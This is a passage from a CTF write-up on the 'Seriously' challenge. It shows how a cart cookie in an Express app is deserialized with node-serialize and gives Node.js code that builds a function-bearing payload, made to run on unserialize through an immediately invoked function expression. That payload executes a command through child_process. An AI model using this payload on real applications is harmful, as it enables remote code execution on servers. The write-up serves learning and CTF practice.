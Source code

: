 ## Seriously by sAINT_barber

Descrpition: 

<img src="images/image17.png" width="450">

I did not solve this challenge during the CTF, but i didnt find a good enough writeup explaing the vulnerability.

Im guessing from the many instances of the challenge there should be some sort of RCE, and guessing the word Seriously sounds a little like Serialize? But anyway on to the solution.

After viewing the site and intercepting some requests i noticed the response header: `X-Powered-By: Express` so the application is running nodejs. And once we add something to our cart it creates a cookie containing the items in the cart : `eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0%3D`

Once decoded: `{"items":{"0":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}`

I googled a bit about node js deserialization and found this website explaining the exploit perfectly: `https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/`

Like many deserialization exploits on various languages (PHP, Python) we need to craft some code to be executed when provoked after going through the unserialize() function.

Create a small node js script to serialize an object with key `rce` and value a function that executes `whoami`:

```
var y = {rce : function(){require('child_process').exec('whoami', function(error, stdout, stderr) { console.log(stdout) });},}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Running the script prints the serialized payload:

<img src="images/image18.png" width="650">

To execute the function immediately we can add an open close bracket an the end of our function. This is called  Immediately invoked function expression (IIFE):

```
var y = {rce : function(){require('child_process').exec('whoami', function(error, stdout, stderr) { console.log(stdout) });}<b>()</b>,}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Running this will Immediately invoked our function executing whoami:

<img src="images/image19.png" width="650">
